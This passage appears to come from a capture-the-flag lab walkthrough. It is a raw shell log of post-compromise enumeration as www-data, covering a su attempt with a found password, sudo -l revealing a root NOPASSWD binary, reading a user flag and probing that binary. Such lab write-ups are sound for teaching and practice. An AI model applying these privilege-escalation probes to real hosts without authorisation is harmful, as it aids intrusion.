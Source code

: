 Password: follow_the_ippsec

su: Authentication failure

www-data@ubuntu:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /home/saket/enc
www-data@ubuntu:/$ file /home/saket/enc
file /home/saket/enc
/home/saket/enc: executable, regular file, no read permission
www-data@ubuntu:/$

cd /home/saket
www-data@ubuntu:/home/saket$ ls -lash
ls -lash
total 36K
4.0K drwxr-xr-x 2 root root 4.0K Aug 31  2019 .
4.0K drwxr-xr-x 4 root root 4.0K Aug 29  2019 ..
4.0K -rw------- 1 root root   20 Aug 31  2019 .bash_history
 16K -rwxr-x--x 1 root root  14K Aug 30  2019 enc
4.0K -rw-r--r-- 1 root root   18 Aug 29  2019 password.txt
4.0K -rw-r--r-- 1 root root   33 Aug 31  2019 user.txt
www-data@ubuntu:/home/saket$ cat user.txt
cat user.txt
af3c658dcf9d7190da3153519c003456

www-data@ubuntu:/home/saket$ sudo -u root /home/saket/enc
sudo -u root /home/saket/enc
enter password: follow_the_ippsec
follow_the_ippsec

## nothing

www-data@ubuntu:/home/victor$ cd /
cd /
www-data@ubuntu:/$ ls -lash
ls -lash
total 108K
4.0K drwxr-xr-x  24 root root 4.0K Aug 29  2019 .
4.0K drwxr-xr-x  24 root root 4.0K Aug 29  2019 ..
4.0K drwxr-xr-x   2 root root 4.0K May 25 03:48 bin
4.0K drwxr-xr-x   3 root root 4.0K May 25 03:48 boot
4.0K drwxrwxr-x   2 root root 4.0K Aug 29  2019 cdrom
   0 drwxr-xr-x  18 root root 3.9K May 25 03:49 dev
 12K drwxr-xr-x 136 root root  12K May 25 03:48 etc
4.0K drwxr-xr-x   4 root root 4.0K Aug 29  2019 home
   0 lrwxrwxrwx   1 root root   33 Aug 29  2019 initrd.img -> boot/initrd.img-4.10.0-28-generic
4.0K drwxr-xr-x  22 root root 4.0K Aug 29  2019 lib
4.0K drwxr-xr-x   2 root root 4.0K May 25 03:46 lib64
 16K drwx------   2 root root  16K Aug 29  2019 lost+found
4.0K drwxr-xr-x   3 root root 4.0K Aug  1  2017 media
4.0K drwxr-xr-x   2 root root 4.0K Aug  1  2017 mnt
4.0K drwxr-xr-x   3 root root 4.0K Aug 30  2019 opt
   0 dr-xr-xr-x 143 root root    0 May 25 03:49 proc
4.0K drwx------   5 root root 4.0K Aug 31  2019 root
   0 drwxr-xr-x  26 root root  800 May 25 03:49 run
 12K drwxr-xr-x   2 root root  12K May 25 03:48 sbin
4.0K drwxr-xr-x   2 root root 4.0K May 25 03:49 snap
4.0K drwxr-xr-x   2 root root 4.0K Aug  1  2017 srv
   0 dr-xr-xr-x  13 root root    0 May 25 03:49 sys
4.0K drwxrwxrwt  11 root root 4.0K May 25 05:02 tmp